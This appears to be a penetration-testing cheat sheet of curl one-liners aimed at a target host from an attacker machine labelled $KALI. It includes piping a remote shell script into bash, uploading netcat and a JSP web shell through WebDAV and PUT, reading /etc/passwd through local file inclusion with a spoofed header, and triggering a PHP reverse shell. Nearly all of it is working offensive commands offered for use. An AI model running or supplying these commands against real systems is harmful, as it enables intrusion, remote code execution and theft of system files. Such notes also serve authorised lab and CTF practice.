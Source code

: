 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Download and execute
```bash - target
curl http://$KALI/shelly.sh | bash
```

#### Save to file
```bash - target
curl http://$KALI/shelly.sh -o shelly.sh
```

#### Headers
```bash - kali
curl -I http://$TARGET/filemanager/
```

#### Upload file
```bash - kali
curl --user 'user:password' -T nc64.exe http://$TARGET/webdav/nc64.exe
```

```bash - kali
curl -X PUT http://$TARGET:PORT/shelly.jsp -d 2- < shelly.jsp
```
  
#### LFI example with custom header
```bash - kali
curl http://$TARGET:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
```

#### html2text
```bash - kali
curl http://$TARGET:8080/ | html2text
```

#### Credentials
```bash - kali
curl --user $USER:$PASSWORD $TARGET
```

#### Webdav trigger webshell
```bash - kali
curl http://$TARGET/webdav/php-reverse-shell.php -u $USER:$PASSWORD
```
#### Edit Method
```bash - kali
curl -siX POST -H 'Content-Length: 0' http://$TARGET:80/running-proccesses
```